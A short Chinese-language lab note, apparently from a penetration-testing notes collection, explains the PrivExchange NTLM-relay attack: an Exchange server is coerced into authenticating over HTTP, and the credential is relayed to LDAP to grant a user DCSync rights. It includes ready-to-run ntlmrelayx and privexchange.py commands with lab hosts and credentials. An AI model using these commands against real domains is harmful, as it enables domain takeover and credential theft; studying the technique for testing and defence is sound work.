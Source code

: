 Exchange的计算机用户是一个高权限账户，可以修改AD中的ACL属性，因此，我们将NTLM中继到LDAP上时，我们就可以修改AD中的对象，并赋予一定的权限（包括Dcsync的权限）。我们通过让Exchange服务器利用HTTP向任意URL进行身份验证的行为，可以达到该漏洞的目的。

![image-20220321140203863](../_img/image-20220321140203863.png)





利用过程

```shell
//指定目标DC，以及我们要修改的用户
impacket-ntlmrelayx -t ldap://dc01.lab.local --escalate-user buff

//利用Privechange进行请求
python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1
```

邮件服务器发送一个HTTP请求到我们的中继服务器，利用中继服务器去进行身份验证并获取到NTLMv2的hash，我们通过 LDAP 将其中继到域控制器，修改用户的 ACL 权限以获取 DCsync 权限。
